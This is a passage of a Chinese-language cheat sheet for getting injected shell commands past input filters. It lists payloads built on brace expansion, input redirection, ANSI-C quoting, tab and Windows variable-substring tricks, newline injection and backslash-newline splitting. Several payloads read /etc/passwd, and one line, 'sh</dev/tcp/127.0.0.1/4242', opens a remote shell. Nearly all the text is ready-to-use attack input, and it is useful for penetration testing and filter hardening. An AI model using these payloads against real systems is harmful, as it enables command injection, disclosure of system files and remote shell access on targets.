 * 在某些 shell 中，花括号扩展生成任意字符串。执行时，shell 将花括号内的项目视为单独的命令或参数。

  ```powershell
  {cat,/etc/passwd}
  ```

* 输入重定向。`<` 字符告诉 shell 读取指定文件的内容。

  ```powershell
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
  ```

* ANSI-C 引用

  ```powershell
  X=$'uname\x20-a'&&$X
  ```

* 制表符有时可以用作空格的替代品。在 ASCII 中，制表符由十六进制值 `09` 表示。

  ```powershell
  ;ls%09-al%09/home
  ```

* 在 Windows 中，`%VARIABLE:~start,length%` 是用于环境变量子串操作的语法。

  ```powershell
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
  ```

### 换行符绕过

命令也可以通过新行依次运行

```bash
original_cmd_by_server
ls
```

### 反斜杠换行符绕过

* 通过使用反斜杠加换行符，可以将命令分成几部分

  ```powershell
  $ cat /et\
  c/pa\
  sswd
  ```

* URL 编码形式如下：

  ```powershell
  cat%20/et%5C%0Ac/pa%5C%0Asswd
  ```

### 波浪号扩展绕过

```powershell
echo ~+
echo ~-
```

